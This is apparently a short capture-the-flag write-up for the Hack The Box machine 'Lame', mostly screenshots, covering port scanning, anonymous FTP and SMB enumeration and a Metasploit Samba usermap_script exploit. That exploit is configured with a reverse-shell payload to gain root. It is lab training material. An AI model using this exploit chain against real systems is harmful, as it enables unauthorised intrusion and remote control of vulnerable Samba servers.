 # Lame



<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption></figcaption></figure>

### Recon

How many of the nmap top 1000 TCP ports are open on the remote host?

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>4 Ports Open</p></figcaption></figure>

i will see the port open FTP - 21 with \
login Anonymous \
and \
Password Anonymous

```bash
ftp 10.10.10.3
```

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

but can't expliot ftp  come i will try expliot using smb

{% hint style="success" %}
With Passweord Protected OFF
{% endhint %}

```
smbclient -L 10.10.10.3
```

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Access

```bash
exploit/multi/samba/usermap_script
set payload cmd/unix/reverse
set lhost tun0
set lport 443
```

<figure><img src="../../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Root Flag

<figure><img src="../../../../.gitbook/assets/image (8) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

User Flag

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Exploits Used

**msfconsole**

```
exploit/multi/samba/usermap_script
```

### Tools Used

* Nmap
* smbclient
* nc

